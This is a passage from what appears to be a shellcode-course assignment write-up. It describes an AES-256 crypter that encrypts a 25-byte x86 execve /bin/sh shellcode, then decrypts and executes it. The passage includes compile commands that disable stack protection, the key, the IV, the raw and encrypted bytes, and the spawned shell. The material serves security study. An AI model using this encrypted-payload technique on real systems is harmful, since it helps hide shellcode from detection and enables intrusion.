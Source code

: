 Second, the 256 bit AES key, 128 bit initialization vector and encrypted shellcode are all placed into decrypt.c

decrypt.c then uses the aforementioned key and IV to decrypt the encrypted shellcode and display the shellcode in it's original form. The `execute_shellcode` function is then called and passes control of the program to the shellcode, this continues to use `execve` to execute `/bin/sh`.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ gcc encrypt.c -l crypto -o encrypt
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ ./encrypt
[+] AES 128 bit IV: KSB1FebW397VI5uG
[+] AES 256 bit Key: PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw
[+] Original Shellcode (25 bytes):
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Encrypted Shellcode (32 bytes):
\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ vim decrypt.c
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ cat decrypt.c | grep "iv\[\]"
  unsigned char iv[] = "KSB1FebW397VI5uG";
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ cat decrypt.c | grep "key\[\]"
  unsigned char key[] = "PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw";
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ cat decrypt.c | grep "encrypted\[\]"
  unsigned char encrypted[] = "\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70";
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ gcc -fno-stack-protector -z execstack decrypt.c -l crypto -o decrypt
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ ./decrypt
[+] Encrypted Shellcode (32 bytes):
\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70
[+] AES 128 bit IV: KSB1FebW397VI5uG
[+] AES 256 bit Key: PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw
[+] Decrypted Shellcode (25 bytes):
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Executing Shellcode:

$
```
